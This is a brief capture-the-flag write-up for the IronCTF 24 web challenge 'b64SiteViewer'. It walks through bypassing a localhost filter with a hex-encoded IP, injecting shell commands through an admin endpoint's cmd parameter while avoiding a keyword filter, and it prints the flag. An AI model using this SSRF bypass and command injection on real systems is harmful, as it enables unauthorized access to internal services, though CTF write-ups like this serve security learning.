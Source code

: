 # IRONCTF 24

## b64SiteViewer | webex

### Description: 

Hey everyone, check out my new Base64 site viewer! The admin believes he's invincible.Do you have what it takes to outsmart him?
Flag Format: ironCTF{alphanumeric_lowercase}

# Author: 4rUN


### Solve :

ssrf & command injection attacks with some filters :

firstly we bypass the 127.0.0.1 with some hex 
so it will be ``0x7f.0x00.0x00.0x01``

next we try to do a command injection in the /admin endpoint 

we see that some chars are filters like cat 

so i use ls to see all file i find 

```echo 'YXBwLnB5CnJlcXVpcmVtZW50cy50eHQKcnVuLnNoCnRlbXBsYXRlcwo=' | base64 -d```
```app.py requirements.txt run.sh templates```

so we use 

```http://0x7f.0x0.0x0.0x1:5000/admin?cmd=head+run*``

decode it from base64 and we get our flag 

**ironCTF{y0u4r3r0ck1n6k33ph4ck1n6}**




